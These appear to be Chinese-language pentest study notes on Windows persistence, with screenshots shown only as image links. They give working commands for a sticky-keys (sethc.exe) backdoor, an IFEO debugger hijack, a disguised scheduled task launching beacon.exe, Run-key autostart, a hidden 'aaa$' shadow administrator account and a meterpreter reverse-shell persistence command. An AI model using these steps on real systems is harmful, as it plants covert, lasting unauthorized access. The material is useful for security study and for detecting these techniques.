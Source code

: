 # Windows权限维持

### 五次粘滞键

1. 需要对sethc.exe有操作权限

   ![image-20220719015509754](../img/Windows权限维持/image-20220719015509754.png)

![image-20220719020412533](../img/Windows权限维持/image-20220719020412533.png)



2. 修改原本粘滞键 sethc.exe ：  renmae sethc.exe sethc.exe.bak

![image-20220719020701149](../img/Windows权限维持/image-20220719020701149.png)



3. 复制cmd.exe 到 sethc.exe  : copy cmd.exe sethc.exe

![image-20220719020838093](../img/Windows权限维持/image-20220719020838093.png)



4. 在登录页面或windows任意页面按五次shift键即可打开cmd窗口

   ![image-20220719021054003](../img/Windows权限维持/image-20220719021054003.png)



### 镜像劫持（修改原本程序的启动路径或软件）IFEO

- 注册表：HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Image File Execution Options

1. 打开注册表 HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows NT/CurrentVersion/Image File Execution Options

   ![image-20220719022646520](../img/Windows权限维持/image-20220719022646520.png)

   

2. 添加项  (要和想劫持的文件名 一样) sethc.exe

   ![image-20220719022819455](../img/Windows权限维持/image-20220719022819455.png)

   

3. 添加字符串 debugger , 添加值  C:\windows\system32\cmd.exe

   ![image-20220719022947580](../img/Windows权限维持/image-20220719022947580.png)

   

4. 此时粘滞键变为cmd.exe

   ![image-20220719023849460](../img/Windows权限维持/image-20220719023849460.png)



### 计划任务 schtasks  （win7 之前是at）

- 设置计划任务打开cmd：

  - schtasks /create /tn "chrom" /tr cmd.exe /sc minute /mo 1

    ![image-20220719024840259](../img/Windows权限维持/image-20220719024840259.png)

    

- 设置计划任务打开beacon.exe
  - schtasks /create /tn "chrom" /tr beacon.exe /sc minute /mo 1

### 开机自启动

- HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Run

  ![image-20220719025412829](../img/Windows权限维持/image-20220719025412829.png)

  

  ![image-20220719025626053](../img/Windows权限维持/image-20220719025626053.png)

### 影子账户 ，隐藏账户

1. 创建隐藏用户

   net user aaa$ 123123 /add

   ![image-20220719025958767](../img/Windows权限维持/image-20220719025958767.png)

   

2. 注册表 （默认看不了，要修改权限）

   ![image-20220719030736203](../img/Windows权限维持/image-20220719030736203.png)

   ![image-20220719030825993](../img/Windows权限维持/image-20220719030825993.png)



3. 复制administrator用户对应的Users项的F值粘贴到 aaa$ 用户对应的Users项的F值

   ![image-20220719031107976](../img/Windows权限维持/image-20220719031107976.png)



4. 导出 Names 中 aaa$ 项，和 Users 中 aaa$ 对应项

   ![image-20220719031315628](../img/Windows权限维持/image-20220719031315628.png)

5. 删除用户net user aaa$ /del![image-20220719031450459](../img/Windows权限维持/image-20220719031450459.png)

   ![image-20220719031615113](../img/Windows权限维持/image-20220719031615113.png)

6. 双击第四步保存的两个reg文件，导入注册表，生成影子账户

   ![image-20220719031738027](../img/Windows权限维持/image-20220719031738027.png)

### **meterpreter 权限维持**

- 自启动	

meterpreter >  run persistence -U -i 10 -p 6666 -r 127.0.0.1

设置开机自启，自动连接 127.0.0.1 的 6666 端口，反弹meterpreter （不稳定且已弃用）





